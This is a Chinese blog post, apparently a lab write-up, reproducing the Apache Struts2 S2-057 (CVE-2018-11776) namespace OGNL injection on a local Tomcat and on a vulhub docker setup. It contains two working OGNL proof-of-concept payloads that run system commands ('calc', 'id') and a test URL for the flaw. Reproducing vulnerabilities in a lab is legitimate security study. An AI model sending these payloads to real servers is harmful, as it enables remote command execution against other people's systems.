



# Apache struts2 namespace 远程命令执行 _CVE-2018-11776(S2-057)漏洞复现 - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11186012.html`](https://www.cnblogs.com/yuzly/p/11186012.html)

Apache struts2 namespace 远程命令执行 _CVE-2018-11776(S2-057)漏洞复现 

**一、漏洞描述**

S2-057 漏洞产生于网站配置 xml 的时候,有一个 namespace 的值,该值并没有做详细的安全过滤导致可以写入到 xml 上,尤其 url 标签值也没有做通配符的过滤,导致可以执行远程代码,以及系统命令到服务器系统中去 。

**二、漏洞影响版本**

Apache struts 2.3-Apache struts 2.3.34

Apache struts 2.5-Apache struts 2.5.16 

**三、漏洞环境搭建以及复现**

Win7+tomcat7.0+struts-2.5.16

1、下载 struts 2.5.16 官方示例 showcase

2、把下载的 struts2-showcase 放到 tomcat 的 webapps 目录下

　　

3、修改 struts-actionchaining.xml,发现有两处需要修改

　　

4、修改 struts-actionchaining.xml,将 namespace 删除, 将 result 类型改为 redirectAction

修改为如下:　　

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```

5、重启 tomcat

6、浏览器访问 http://192.168.10.230:8080/struts2-showcase/,漏洞环境成功搭建

 　　

7、此漏洞利用很简单，只需要在 url 构造 ognl 表达式，再加上配置文件中的 action 标签中的 name 属性值，并以.action 结尾

浏览器访问 http://192.168.10.230:8080/struts2-showcase/${100*100}/actionChain1.action,会执行 Ognl 表达式 ${100*100}

　　

8、路径跳转到我们在配置的 action 文件路径下，到此，S2-057 漏洞被成功的利用了

9、弹计算器,但是在目标没有弹出计算器

Poc 如下:　

${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}

　　

**四、漏洞防御**

1、 升级最新版本

**使用 docker 搭建**

1、利用 docker 搭建 vulhub 漏洞环境

docker-compose up -d

2、 启动环境后,访问 http://172.17.0.1:8080/struts2-showcase/

　　

3、burp 抓包,修改包如下,说明存在漏洞

　　

4、使用 poc 验证

POC 如下:

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

5、把 poc 替换相应的位置，验证说明存在漏洞  #poc 需要 url 编码

　　

-----------------------------------------------------------------------------------------------------------

参考:https://github.com/vulhub/vulhub/tree/master/struts2/s2-057